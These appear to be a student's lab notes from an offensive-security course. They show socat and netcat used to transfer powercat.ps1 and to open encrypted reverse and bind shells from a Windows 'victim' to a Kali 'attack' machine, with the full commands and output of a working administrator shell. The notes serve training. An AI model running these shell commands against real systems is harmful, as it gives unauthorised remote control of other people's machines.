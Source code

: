 4.2.4.1

# 4.2.4.1
## 4.2.4.1.1 Use **socat** to transfer **powercat.ps1** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.

Locate powercat on the Kali system
```plaintext
kali@kali:~/gitWorkspace/tools$ locate powercat.ps1
```

It is not installed. Download it from https://github.com/besimorhino/powercat
```plaintext
kali@kali:~/gitWorkspace/tools$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 4.41 MiB/s, done.
Resolving deltas: 100% (72/72), done.
```

On the Kali machine, share powercat.ps1 on on port 443
```plaintext
kali@kali:~/gitWorkspace/tools$ cd powercat
kali@kali:~/gitWorkspace/tools/powercat$ sudo socat tcp4-listen:443,fork file:powercat.ps1
```

On the Windows machine, connect to the Kali machine and receive the file.
```plaintext
C:\Users\Administrator\Desktop>socat tcp4:192.168.119.214:443 file:powercat.ps1,create

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is DC08-488F

 Directory of C:\Users\Administrator\Desktop

09/15/2020  09:39 PM    <DIR>          .
09/15/2020  09:39 PM    <DIR>          ..
09/15/2020  09:39 PM            37,667 powercat.ps1
               1 File(s)         37,667 bytes
               2 Dir(s)   9,812,668,416 bytes free

C:\Users\Administrator\Desktop>
```

## 4.2.4.1.2. Use **socat** to create an encrypted reverse shell from your Windows system to your Kali machine.

The reverse shell will be from the Windows (victim) machine, but the Windows machine does not have openssl installed. Create the self-signed certificate (key and certificate) on the Kali (attack) machine.
```plaintext
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
Generating a RSA private key
.............................+++++
........................................................................................................................................................................................................................+++++
writing new private key to 'reverse_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

Convert the key and certificate to a format the socat will accept
```plaintext
kali@kali:~$ cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```

Create a listener with the specified certificate and every new incoming connection will be forked, thus allowing multiple connections. 
```plaintext
kali@kali:~$ socat -d -d openssl-listen:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
2020/09/16 01:39:26 socat[11877] N listening on AF=2 0.0.0.0:4443

```

On Windows machine, the following command will result in completing a reverse shell.
```plaintext
C:\Users\Administrator\Desktop>socat openssl:192.168.119.214:4443,verify=0 exec:'cmd.exe',pipes
```

Observe we now have a Windows shell on the Kali machine
```plaintext
kali@kali:~$ socat -d -d openssl-listen:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
2020/09/16 01:39:26 socat[11877] N listening on AF=2 0.0.0.0:4443
2020/09/16 01:42:34 socat[11877] N accepting connection from AF=2 192.168.214.10:56838 on AF=2 192.168.119.214:4443
2020/09/16 01:42:34 socat[11877] N forked off child process 11888
2020/09/16 01:42:34 socat[11877] N listening on AF=2 0.0.0.0:4443
2020/09/16 01:42:34 socat[11888] N no peer certificate and no check
2020/09/16 01:42:34 socat[11888] N SSL connection using ECDHE-RSA-AES256-GCM-SHA384
2020/09/16 01:42:34 socat[11888] N SSL connection compression "none"
2020/09/16 01:42:34 socat[11888] N SSL connection expansion "none"
2020/09/16 01:42:34 socat[11888] N using stdout for reading and writing
2020/09/16 01:42:34 socat[11888] N starting data transfer loop with FDs [7,7] and [1,1]
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami                                                                                       
client251\administrator                                                                      
                                                                                             
C:\Users\Administrator\Desktop> 
```


## 4.2.4.1.3. Create an encrypted bind shell on your Windows (victim) system. Try to connect to it from Kali (attack) without encryption. Does it still work?

### Create the encrypted bind shell
Generate the certificate, convert it to a file socat can use, and create a netcat listener that will share the bind_shell.pem file upon connection.
```plaintext
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
Generating a RSA private key
................+++++
...............+++++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
kali@kali:~$ sudo nc -lvnp 4443 < bind_shell.pem 
[sudo] password for kali: 
listening on [any] 4443 ...

```

If we are to use a bind shell on the Windows machine, the .pem file should be on the Windows machine. Open a netcat client to receive the bind_shell.pem file
```plaintext
C:\Users\Administrator\Desktop>nc -nv 192.168.119.214 4443 > bind_shell.pem
(UNKNOWN) [192.168.119.214] 4443 (?) open


C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is DC08-488F

 Directory of C:\Users\Administrator\Desktop

09/15/2020  11:05 PM    <DIR>          .
09/15/2020  11:05 PM    <DIR>          ..
09/15/2020  11:05 PM             3,030 bind_shell.pem
09/15/2020  09:39 PM            37,667 powercat.ps1
               2 File(s)         40,697 bytes
               2 Dir(s)   9,742,016,512 bytes free

C:\Users\Administrator\Desktop>
```
Create a socat listener on the Windows machine
```plaintext
C:\Users\Administrator\Desktop>socat OPENSSL-LISTEN:4443,cert=bind_shell.pem,verify=0,fork EXEC:'cmd.exe',pipes
```

Open a socat client on Kali. Observe we now have a shell
```plaintext
kali@kali:~$ socat - OPENSSL:192.168.214.10:4443,verify=0
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```

### Try to connect to it from Kali without encryption

This time, do not use openssl with socat. The connection hangs and we do not get a shell.
```plaintext
kali@kali:~$ socat - tcp4:192.168.214.10:4443


```

## 4.2.4.1.4. Make an unencrypted **socat** bind shell on your Windows system. Connect to the shell using Netat. Does it work?

On the Windows (victim) machine, open port 4443
```plaintext
C:\Users\Administrator\Desktop>socat -d -d tcp-listen:4443 exec:'cmd.exe',pipes
```

Connect to Windows via netcat. It works!
```plaintext
kali@kali:~$ nc -nv 192.168.214.10 4443
(UNKNOWN) [192.168.214.10] 4443 (?) open
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```

id: 9070a1c4c7d04041b6d9a886496b4d3b
parent_id: a1a8bd8c4972476ea78ef87c67d6f0be
created_time: 2020-10-02T19:27:31.185Z
updated_time: 2020-10-02T19:27:32.726Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T19:27:31.185Z
user_updated_time: 2020-10-02T19:27:32.726Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1